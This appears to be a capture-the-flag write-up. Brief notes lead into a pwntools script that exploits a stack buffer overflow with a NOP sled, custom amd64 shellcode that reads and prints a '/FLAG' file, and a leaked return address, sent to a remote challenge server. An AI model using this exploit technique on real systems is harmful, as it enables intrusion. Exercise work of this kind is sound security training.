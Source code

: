 * make a bufferoverflow to overwrite the ret addr to the random addr within stack which can **be writable**
* put shellcode in the rdn addr in the stack, since its random, need **nop sled** to reach the shellcode
* so payload = nopsled_padding + shellcode + padding_rbp + ret_address

```
from pwn import *
import struct


def interact_with_process(binary_path, host=None, port=None):
    # Start the process
    if host and port:
        p = remote(host, port)
    else:
        p = process(binary_path)

    context.arch = 'amd64'


    shellcode = asm('''
           XOR RAX, RAX
           MOV RAX, 0x47414C462F
           PUSH RAX
           MOV RDI, RSP


           XOR RSI, RSI
           XOR RDX, RDX
           MOV RAX, 2
           SYSCALL

           MOV RDI, RAX
           MOV RSI, RSP
           MOV RDX, 200
           XOR RAX, RAX
           SYSCALL

           MOV RDI, 1
           MOV RSI, RSP
           MOV RDX, 200
           MOV RAX, 1
           SYSCALL

           XOR RDI, RDI
           MOV RAX, 60
           SYSCALL

       ''')

    padding_size = (0x2000 - len(shellcode))

    padding = b"\x90" * padding_size

    padding_rbp = b"A" * 8
    # print('padding_size is :', padding_size)

    # print("Shellcode: ", shellcode.hex())

    p.recvuntil(b'Here is a random stack address: ')
    rdn_addr_str = p.recvline().strip(b'\n')
    rdn_addr = int(rdn_addr_str, 16)
    ret_address = p64(rdn_addr)
    # print(f"Random stack address: {ret_address}")

    payload = padding + shellcode + padding_rbp + ret_address
    # print('payload:', payload)

    # Send the payload
    p.sendline(payload)
    p.interactive()


# Example usage
interact_with_process('', '6447.lol', 22301)

```

